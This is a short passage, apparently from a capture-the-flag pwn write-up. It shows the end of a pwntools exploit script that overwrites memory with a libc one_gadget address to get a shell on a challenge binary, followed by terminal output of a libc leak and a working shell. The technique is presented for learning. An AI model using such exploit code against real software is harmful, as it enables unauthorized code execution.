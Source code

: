 ```python
p.sendlineafter('(1:big/2:bigger)\n', '1')

payload = p64(0)*(ord('s')-2)
payload += p64(l.address + ones[2])
p.sendlineafter(':\n', payload)

p.interactive()
```

```bash
upwind@ubuntu-18:/mnt/hgfs/share/hws/pwn1$ ./exp.py 
[+] Starting local process './pwn': pid 81669
[+] libc -> 0x7fe735a14000
[*] Switching to interactive mode
$ whoami
upwind
```
